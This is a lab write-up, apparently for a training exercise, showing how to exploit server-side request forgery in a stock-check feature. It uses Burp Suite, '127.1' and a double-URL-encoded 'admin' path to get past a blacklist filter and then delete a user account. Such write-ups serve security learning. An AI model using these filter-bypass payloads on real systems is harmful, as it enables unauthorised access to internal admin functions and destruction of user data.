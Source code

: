 ```yaml
---
custom_edit_url: null
sidebar_position: 4
---
```


![1](https://github.com/Knign/Write-ups/assets/110326359/93e692a4-31ec-47ef-b00a-a8bc5ec5da8e)

Let's check out the stock.

![2](https://github.com/Knign/Write-ups/assets/110326359/ec3075dd-4054-4fd9-80b8-4cc94cc65c33)

We can intercept the request using Burpsuite.

![3](https://github.com/Knign/Write-ups/assets/110326359/738c890f-7604-4eb8-89ae-7dc024f6dc81)

Let's send the request to the `Repeater`.

We can set the `stockApi` field to the following and send the request:

```
http://localhost/admin
```

![4](https://github.com/Knign/Write-ups/assets/110326359/2c4dfd87-1fa2-4a4b-a317-c1da7ff2a6ea)

So that request is blocked.

Let's send the following request:

```
http://127.1/
```

![6](https://github.com/Knign/Write-ups/assets/110326359/23bc4608-6d58-4b48-a606-715566d2db61)

Ah! That returns a valid response.

Let's try visiting the `/admin` page.

```
http://127.1/admin
```

![7](https://github.com/Knign/Write-ups/assets/110326359/0cbd23b5-c2fe-4ec0-9773-cfa5d7fa06a2)

Looks like the `admin` keyword is being pattern-matched and blocked.

We can get around it by double URL encoding the string.

![10](https://github.com/Knign/Write-ups/assets/110326359/95431df0-f4d3-4236-b29c-d4c9557694df)

Let's now send the following request:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

![9](https://github.com/Knign/Write-ups/assets/110326359/ae5d389d-3095-4985-8517-6cab343fe83e)

We can now delete the `carlos` user.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

![11](https://github.com/Knign/Write-ups/assets/110326359/0eb5aca8-a081-4762-bc3a-a282f5228548)

We have solved the lab.

![12](https://github.com/Knign/Write-ups/assets/110326359/227c637f-55d5-4f77-bb5b-dbb2578521b8)
